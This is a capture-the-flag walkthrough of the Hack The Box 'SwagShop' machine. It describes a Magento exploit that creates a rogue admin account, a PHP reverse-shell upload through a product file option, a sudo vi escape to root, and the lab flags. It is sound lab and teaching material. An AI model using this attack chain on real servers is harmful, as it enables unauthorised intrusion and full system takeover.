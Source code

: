 ```yaml
---
layout: post
author: msameer234
---
```

<br />
+=============+<br />
SCANNING<br />
+=============+<br />
 nmap 10.10.10.140<br />
	PORT   STATE SERVICE<br />
	22/tcp open  ssh<br />
	80/tcp open  http

+================+<br />
ENUMERATION<br />
+================+

 Wibsite hosted on port 80/http --- SwagShop -- Shoping Site<br />
	Using Magento CMS --- found it by wappalyzer.<br />
	<br />
	Found RCE of Magento: <br />
		command used: searchsploit Magento<br />
			Magento eCommerce - Remote Code Execution  <br />
			/usr/share/exploitdb/exploits/xml/webapps/37977.py<br />
	Copy the exploit and edit it, then set your target: <br />
		e.g. target = "http://10.10.10.140/index.php/"<br />
	and save it.<br />
	<br />
	Now execute it as:<br />
		python exploit.py<br />
		it creates an admin account with username "forme" and password "forme":<br />
		Now login at : http://10.10.10.140/index.php/admin -->> Found this by Dirbuster<br />
		I tried to upload php shell, but I couldn't.<br />
		Then I found a way to create a new product-- added an option that asks user to upload a file with extension .php<br />
	<br />
	Now make an order of the created product and upload the file php-reverse-shell.<br />
	And start multi-handler of uploaded shell on msfconsole<br />
<br />
	Here you can access your uploaded shell on server: <br />
		http://10.10.10.140/media/custom_options/order/p/h/<br />
		found media folder by dirbuster.. then did some search after uploading the shell..<br />
		Set up listener and get the reverse_shell.<br />
<br />
	Now navigate to /home/haris/<br />
<br />
	there is user.txt fie which contains user flag: a448877277e82f05e5ddf9f90aefbac8<br />
<br />
+=========================+<br />
PRIVILEGE-ESCALATION<br />
+=========================+<br />
<br />
Type Command:<br />
	sudo -l and hit enter<br />
Output:<br />
	Matching Defaults entries for www-data on swagshop:<br />
    		env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin<br />
<br />
	User www-data may run the following commands on swagshop:<br />
    		(root) NOPASSWD: /usr/bin/vi /var/www/html/*<br />
<br />
	<br />
Here we found we can access all files from "/var/www/html/" directory and vi text editor from "/usr/bin/" directory with root privileges.<br />
<br />
lets create a tty first as it is not there:<br />
python3 is installed:<br />
the command is: <br />
	python3 -c 'import pty;pty.spawn("/bin/sh")'<br />
<br />
Now, lets edit any file from /var/www/html/ directory with vi using sudo:<br />
<br />
cd /home/haris<br />
<br />
sudo vi /var/www/html/../../../etc/sudoers<br />
<br />
Now to enter into Command Mode and execute the command /bin/sh type in    :!/bin/sh     and hit enter<br />
<br />
and we got root..<br />
<br />
Navigating to /root/ directory..<br />
cd /root<br />
cat root.txt<br />
c2b087d66e14a652a3b86a130ac56721<br />
<br />
   ___<br /> ___
 /| |/|\| |\<br />
/_| ´ |.` |_\           We are open! (Almost)<br />
  |   |.  |<br />
  |   |.  |         Join the beta HTB Swag Store!<br />
  |___|.__|       https://hackthebox.store/password<br />
<br />
                   PS: Use root flag as password!<br />
<br />
<br />
<br />
<br />
And we got flag in root.txt file: c2b087d66e14a652a3b86a130ac56721<br />
<br />
Finish..!!!<br />
<br />
